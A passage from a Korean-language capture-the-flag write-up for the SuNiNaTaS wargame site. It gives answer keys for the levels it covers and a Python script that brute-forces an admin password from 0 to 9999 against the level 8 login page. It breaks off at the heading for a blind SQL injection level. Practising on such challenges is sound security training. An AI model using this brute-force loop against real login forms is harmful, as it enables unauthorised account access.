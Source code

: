 <br>

따라서 YES를 계속해서 빠르게 눌러줘야 되는 듯함.

```name="frm"``` 이므로 console창에 ```frm.submit();```를 계속 입력해주다 보면 키가 나옴.

<br>

+ Authkey: G0Od d@y

<br>
<br>
<hr style="border: 2px solid;">
<br>
<br>

## level 8
<hr style="border-top: 1px solid;">

brute force 문제

```<!-- Hint : Login 'admin' Password in 0~9999 -->```

<br>

```python
import requests

url='http://suninatas.com/challenge/web08/web08.asp'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'ASPSESSIONIDQCDTTBSB':'[redacted]'}

for i in range(0,10000) :
    data={'id':'admin', 'pw':i}
    res=requests.post(url, data=data, headers=headers, cookies=cookies)
    if "Password Incorrect!" not in res.text :
        print("Password : {}".format(i)) # Password : 7707
        break
```

<br>

+ Authkey: l3ruteforce P@ssword

<br>
<br>
<hr style="border: 2px solid;">
<br>
<br>

## level 22
<hr style="border-top: 1px solid;">

Blind Sql injection 문제
